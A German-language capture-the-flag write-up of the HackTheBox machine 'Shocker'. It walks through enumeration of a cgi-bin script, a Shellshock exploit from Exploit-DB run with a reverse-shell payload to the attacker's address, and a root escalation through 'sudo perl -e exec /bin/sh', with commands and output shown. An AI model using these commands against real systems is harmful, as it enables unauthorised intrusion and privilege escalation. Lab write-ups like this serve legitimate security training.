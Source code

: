 ```yaml
---
title: "HackTheBox - Shocker WriteUp | Tipps + Anleitung"
date: 2018-02-20T16:41:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
  - german
---
```



# HackTheBox - Shocker WriteUp | Tipps + Anleitung | htb

[Shocker](https://www.hackthebox.eu/home/machines/profile/108) ist eine der vielen Verfügbaren CTF Challenges von [HackTheBox](https://hackthebox.eu/). [Shocker](https://www.hackthebox.eu/home/machines/profile/108) ist eine leichte bis mittelschwere Maschine von [HackTheBox](https://hackthebox.eu/).

[![htbrating](https://imgur.com/zKAwrxI.jpg)](https://imgur.com/zKAwrxI)

## **Tipps**

Der Webserver hat ein interessantes Verzeichnis mit einer Datei drin.

Der Name der Maschine ist bei HackTheBox oft ein Tipp. Das Beitragsbild, welches ich mit meinen immensen Photoshop Sk1llz erstellt habe, ist auch ein "dezenter" Hinweis.

Root-Rechte zu bekommen ist sehr einfach. Allerdings werden dafür Anfängerkenntnisse einer bestimmten Sprache gebraucht.

## **Video**

[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/DhlNO97IztU/0.jpg)](http://www.youtube.com/watch?v=DhlNO97IztU)

## **Anleitung**

Als erstes kommt wie immer ein Nmap-Scan.

```shell
root@kali:~# nmap -A 10.10.10.56

[...]
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
[...]
```

Wenn wir einen Verzeichnis-Bruteforce machen, finden wir das Verzeichnis **cgi-bin**.

```shell
root@kali:~# dirb http://10.10.10.56/ /usr/share/wordlists/dirb/common.txt

[...]
---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)
[...]
```

Im Verzeichnis **cgi-bin** befinden sich normalerweise verschiedene Scripts wie z.B. Perl oder Bash. Versuchen wir doch mal welche durch einen weiteren Brute-Force zu finden. Nach der Option **-X** können wir Dateiendungen festlegen, welche an jeden String in unserer Wortliste angehängt werden.

```shell
root@kali:~# dirb http://10.10.10.56/cgi-bin/ /usr/share/wordlists/dirb/common.txt -X .sh,.pl

[...]
---- Scanning URL: http://10.10.10.56/cgi-bin/ ----
+ http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:118)
[...]
```

Das Shell-Skript **user.sh** wurde in dem Verzeichnis **cgi-bin** gefunden.

Anhand des Namens der Maschine ( Shocker ) liegt der verdacht nahe, dass hier die [Shellshock](https://de.wikipedia.org/wiki/Shellshock_(Sicherheitsl%C3%BCcke)) Sicherheitslücke ausgenutzt werden kann.  
Mithilfe von **searchsploit** können wir nach Exploits für [Shellshock](https://de.wikipedia.org/wiki/Shellshock_(Sicherheitsl%C3%BCcke)) suchen.

```shell
root@kali:~# searchsploit shellshock
--------------------------------------- ----------------------------------
Exploit Title                          | Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------
Advantech Switch - 'Shellshock' Bash E | exploits/cgi/remote/38849.rb
Apache mod_cgi - 'Shellshock' Remote C | exploits/linux/remote/34900.py
Bash - 'Shellshock' Environment Variab | exploits/linux/remote/34766.php
Bash CGI - 'Shellshock' Remote Command | exploits/cgi/webapps/34895.rb
Cisco UCS Manager 2.1(1b) - Remote Com | exploits/hardware/remote/39568.py
GNU Bash - 'Shellshock' Environment Va | exploits/linux/remote/34765.txt
IPFire - 'Shellshock' Bash Environment | exploits/cgi/remote/39918.rb
NUUO NVRmini 2 3.0.8 - Remote Command  | exploits/cgi/webapps/40213.txt
OpenVPN 2.2.29 - 'Shellshock' Remote C | exploits/linux/remote/34879.txt
PHP < 5.6.2 - 'Shellshock' 'disable_fu | exploits/php/webapps/35146.txt
Postfix SMTP 4.2.x < 4.2.48 - 'Shellsh | exploits/linux/remote/34896.py
RedStar 3.0 Server - 'Shellshock' 'BEA | exploits/linux/local/40938.py
Sun Secure Global Desktop and Oracle G | exploits/cgi/webapps/39887.txt
TrendMicro InterScan Web Security Virt | exploits/hardware/remote/40619.py
dhclient 4.1 - Bash Environment Variab | exploits/linux/remote/36933.py
--------------------------------------- ----------------------------------
Shellcodes: No Result
```

Es gibt viele verschiedene Skripte, welche Remote Code Execution durch [Shellshock](https://de.wikipedia.org/wiki/Shellshock_(Sicherheitsl%C3%BCcke)) ermöglichen.

Einfachheitshalber können wir eines der Skripte benutzen, welche dank Exploitdb schon auf unserer Maschine vorhanden sind.  
Ich benutze das Skript, welches an zweiter Stelle von **searchsploit** angezeigt wurde.

```shell
root@kali:~# python /usr/share/exploitdb/exploits/linux/remote/34900.py

Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages: specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234
```

Als Parameter müssen wir **payload**, **rhost**, **lhost**, **lport** und ebenfalls **pages** festlegen.

Jetzt müssen wir nur noch eben unsere IP-Adresse nachsehen.

```shell
root@kali:~# ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500
inet 10.10.15.14 netmask 255.255.254.0 destination 10.10.15.14
[...]
```

Alle Parameter festlegen und los geht's!

```shell
root@kali:~# python /usr/share/exploitdb/exploits/linux/remote/34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.15.14 lport=1234 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
```

Es hat funktioniert, wir haben nun als der Benutzer **Shelly** Zugriff.

Mit **sudo -l** können wir nachsehen, welche Befehle wir als der aktuelle Benutzer mit Root Rechten ausführen lassen können.

```shell
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

Wir können also Perl-Befehle als Root ausführen ohne ein Password zu benötigen!

Wir können nun mithilfe von Perl **/bin/sh** ausführen lassen, wodurch wir eine Bash-Shell bekommen. Da wir **sudo** benutzen, wird die Bash-Shell als Root ausgeführt.

```shell
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> whoami
root
```

Jetzt wo wir Root-Rechte haben, können wir uns den Root-Hash anzeigen lassen und uns natürlich auch noch den User-Hash holen.

```shell
10.10.10.56> cat /root/root.txt
52c#########ZENSIERT#########467

10.10.10.56> cat /home/shelly/user.txt
2ec#########ZENSIERT#########233
```

Vielen Dank für's durchlesen. :)